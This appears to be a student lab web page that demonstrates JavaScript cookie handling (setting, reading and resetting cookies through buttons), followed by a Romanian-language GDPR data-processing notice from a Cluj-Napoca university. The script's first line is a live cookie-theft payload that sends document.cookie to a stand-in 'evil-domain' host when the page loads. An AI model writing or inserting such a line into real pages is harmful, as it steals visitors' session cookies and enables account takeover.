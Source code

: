 <script> 
  (new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=oeschger";
document.cookie = "favorite_food=tripe";
function alertCookie() {
  alert(document.cookie);
} 
document.cookie = "test1=HELLO World";
document.cookie = "test2=Lab MDCP";

const cookieValue = document.cookie
  .split('; ')
  .find(row => row.startsWith('test2='))
  .split('=')[1];

function alertCookieValue() {
  alert(cookieValue);
}
function doOnce() {
  if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) {
    alert("Do something here!");
    document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT";
  }
}
function resetOnce() {
  document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT";
}

//ES5

if (document.cookie.split(';').some(function(item) {
    return item.indexOf('reader=1') >= 0
})) {
    console.log('The cookie "reader" has "1" for value')
}

//ES2016

if (document.cookie.split(';').some((item) => item.includes('reader=1'))) {
    console.log('The cookie "reader" has "1" for value')
}
</script>
  <body>
  Bun venit pe pagina cu jucarii!<br>
  <button onclick="alertCookie()">Show cookies</button><br>
  <button onclick="alertCookieValue()">Show cookie value</button><br>
  <button onclick="doOnce()">Only do something once</button><br>
  <button onclick="resetOnce()">Reset only one cookie</button><br>
Negru Denisa
</body>

<p>
  Universitatea Tehnică Cluj-Napoca, cu sediul in Cluj-Napoca, pe Strada Memorandumului 28, 400114, reprezentată legal prin Rector, Prof. univ. dr. ing. Vasile ŢOPA vă prelucrează datele cu caracter personal.
În art. 4 pct. 1 din Regulamentul nr. 679/2016 se găsește definiția datelor cu caracter personal care stipulează orice informații privind o persoană fizică identificată sau identificabilă („persoana vizată”); o persoană fizică identificabilă este o persoană care poate fi identificată, direct sau indirect, în special prin referire la un anumit element de identificare, cum ar fi: 
-	nume, prenume;
-	CNP;
-	Adresă;
-	E-mail;
-	IBAN;
-	Adeverință medicală.
Vă informăm că datorită temeiului legal aplicabil în România și a relației contractuale în care vă aflați cu Universitatea Tehnică din Cluj-Napoca, aceasta procesează pe perioada relațiilor contractuale următoarele categorii de informații personale care vă aparțin: date de identificare (certificat de naștere, carte de identitate, etc.); date financiare (număr de cont, venituri realizate la nivelul instituției, situații financiare personale, etc.); caracteristici personale (vârsta, locul nașterii, naționalitate, stare civilă, etc.) necesare pentru stabilirea de drepturi cuvenite;  opinii privind starea de sănătate, componența familiei (numărul de copii și date de identificare a acestora, stare civilă, etc. în baza cărora se fac justificările de calcul a unor drepturi cuvenite sau se stabilesc alte drepturi conform legilor și normativelor aplicabile pentru cei care optează sau solicită aceste drepturi); informații privind parcursul academic, calificările deținute, istoricul profesional, calitatea de membru în organizații profesionale, publicații, date de contact necesare pentru derularea curentă a activității educaționale și de cercetare specifice universității.
Menționăm ca reținerea datelor cu caracter personal în instituție are rolul de a putea furniza către titularul datelor, la cerere, informații privind perioada de școlarizare petrecută în cadrul instituției și după finalizarea acestei perioade de instruire și se supune suplimentar temeiului legal aplicabil în România furnizat de OM Nr. 657 / 24.11.2014 privind regimul actelor de studii în sistemul de învățământ superior cu completările ulterioare.
Datele deținute la nivelul sistemelor informatice din Universitatea Tehnică din Cluj-Napoca nu sunt comunicate unor terțe părți decât în cazul în care există solicitări venite conform unui temei legal furnizat de instituții ale statului român sau pentru îndeplinirea obligațiilor contractuale dintre dumneavoastră ca student / cursant și Universitatea Tehnică din Cluj-Napoca ca furnizor de servicii educaționale.
Conform Regulamentului UE nr. 679/2016 persoanele vizate beneficiază de următoarele drepturi:
•	dreptul de acces cu titlul gratuit la datele personale prelucrate de universitate;
•	dreptul la rectificare şi dreptul la ştergerea datelor – fără a contraveni obligaţiilor legale ale universităţii;
•	dreptul de restricţionare a prelucrării datelor – fără a contraveni obligaţiilor legale ale universităţii;
•	dreptul la portabilitatea datelor;
•	dreptul de a retrage oricând consimţământul în cazul în care prelucrarea se bazează pe consimţământ;
Perioada de stocare şi prelucrare a datelor cu caracter personal este determinată de prevederile legale în vigoare. La sfârşitul perioadei de stocare şi prelucrare a datelor cu caracter personal, conform raporturilor juridice sau scopurilor precizate în declarațiile de consimțământ completate de persoanele vizate, datele cu caracter personal vor fi şterse din procesele curente şi vor fi arhivate conform legislaţiei naţionale.
		    În cazul mobilității la o universitate din UK, instituția de primire trebuie să elibereze studentului foaia matricolă e confirmă parcurgerea programului de studii precum și rezultatele acestuia. Totodată, instituția de trimitere trebuie să acorde recunoaștere academică tuturor activităților finalizate în timpul mobilității conform contractului de studiu, prin acordarea creditelor transferabile sau a unui sistem echivalent.
		    Datorită faptului că perioada de mobilitate va fi inclusă și în suplimentul de diplomă, Universitatea Tehnică va avea dreptul să acceseze informațiile despre student din perioada mobilității.   
  
  </p>
